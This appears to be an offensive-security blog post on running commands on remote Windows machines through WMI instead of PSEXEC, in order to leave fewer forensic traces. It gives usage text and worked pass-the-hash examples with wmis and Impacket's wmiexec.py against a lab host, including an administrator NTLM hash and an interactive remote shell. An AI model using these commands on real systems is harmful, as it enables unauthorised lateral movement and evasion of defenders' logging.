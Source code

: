 = Executing code via SMB / DCOM without PSEXEC
:hp-tags: wmi, impacket, wmis

PSEXEC has been a staple for Windows post exploitation pivoting and system administration for a long while. The basic premise of how all "psexec" tools work is:

  1. (_Optional_) Upload a service executable (PSEXECSVC.EXE in the case of SysInternal's tool) to the ADMIN$ share
  2. Connect to the service manager on the remote host, and create a service based on either a local (to the remote system) executable or the uploaded one.
  3. Run the service
  4. Stop and delete the service and uploaded file pulling down the resulting output if any from the execution.

Now, as you can guess, the uploading of a file, creating, starting, stopping, and deletion of services create quite the logs and forensic evidence.

As you might imagine, thats not the best thing for us on the offensive side of infosec. Luckily big brother Microsoft provides another option, WMI (Windows Management Interface). I demonstrated the use of this in the past: link:/blog/2013/06/10/volume-shadow-copy-ntdsdit-domain-hashes-remotely-part-1/[HERE] and link:/blog/2013/10/06/dumping-a-domain-worth-of-passwords-with-mimikatz/[HERE]

The downside to using the WMIC directly is that you need a valid token or a valid password for it to work. Passing the hash didn't used to be an available option.

That has changed with the "wmis" package on Kali Linux that incorporates the http://passing-the-hash.blogspot.com/2013/07/WMIS-PowerSploit-Shells.html["Pass-the-Hash for 15 years toolkit"]

(There is a slight problem where you have to play with it a bit to get it working on 64 bit Kali)

The other solution is supplied as an example in the http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=tool&name=Impacket[Impacket library] https://code.google.com/p/impacket/source/browse/trunk/examples/wmiexec.py["wmiexec.py"]. In my experience there are a few features that make it the better option.

1. Installing it on a random VPS is dead simple and doesn't need the Kali repos to get right, nor Debian/Ubuntu.
2. It defaults to an "semi-interactive shell" which writes and reads output from the ADMIN$ shell by default. Something I would normally have to do manually with a bunch of tools
3. As with the WMIS package, it allows you to just create a process without the ADMIN$ write/read.

Enough crazy talk here is an example usage of each:

## WMIS

### Usage:

```
root@wpad:~# wmis
Usage: [-?NPV] [-?|--help] [--usage] [-d|--debuglevel=DEBUGLEVEL] [--debug-stderr] [-s|--configfile=CONFIGFILE]
        [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full]
        [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS] [-n|--netbiosname=NETBIOSNAME]
        [-W|--workgroup=WORKGROUP] [--realm=REALM] [-i|--scope=SCOPE] [-m|--maxprotocol=MAXPROTOCOL]
        [-U|--user=[DOMAIN\]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING] [-A|--authentication-file=FILE]
        [-S|--signing=on|off|required] [-P|--machine-pass] [--simple-bind-dn=STRING] [-k|--kerberos=STRING]
        [--use-security-mechanisms=STRING] [-V|--version]
        //host

Example: wmis -U [domain/]adminuser%password //host cmd.exe /c dir c:\ > c:\windows\temp\output.txt 
```

## Example:
```
root@wpad:~# wmis -U administrator%aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29 //172.16.102.141 calc.exe
HASH PASS: Substituting user supplied NTLM HASH...
HASH PASS: Substituting user supplied NTLM HASH...
[wmi/wmis.c:172:main()] 1: calc.exe
NTSTATUS: NT_STATUS_OK - Success
```



## wmiexec.py

Using a password, but with hashes you just tell it `-hashes` :

### Usage:
```
root@wpad:~/impacket/examples# ./wmiexec.py 
Impacket v0.9.12-dev - Copyright 2002-2014 Core Security Technologies

usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-hashes LMHASH:NTHASH]
                  target [command [command ...]]

positional arguments:
  target                [domain/][username[:password]@]<address>
  command               command to execute at the target. If empty it will
                        launch a semi-interactive shell

optional arguments:
  -h, --help            show this help message and exit
  -share SHARE          share where the output will be grabbed from (default
                        C$)
  -nooutput             whether or not to print the output (no SMB connection
                        created)

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

```
### Example:
```
root@wpad:~/impacket/examples# ./wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29 administrator@172.16.102.141
Impacket v0.9.12-dev - Copyright 2002-2014 Core Security Technologies

SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 5CCA-B528

 Directory of C:\

07/13/2009  11:20 PM    <DIR>          PerfLogs
10/07/2013  03:26 PM    <DIR>          Program Files
07/14/2009  01:08 AM    <DIR>          Program Files (x86)
04/25/2014  02:21 AM    <DIR>          Users
05/11/2014  03:39 PM    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  52,884,389,888 bytes free

C:\>

```

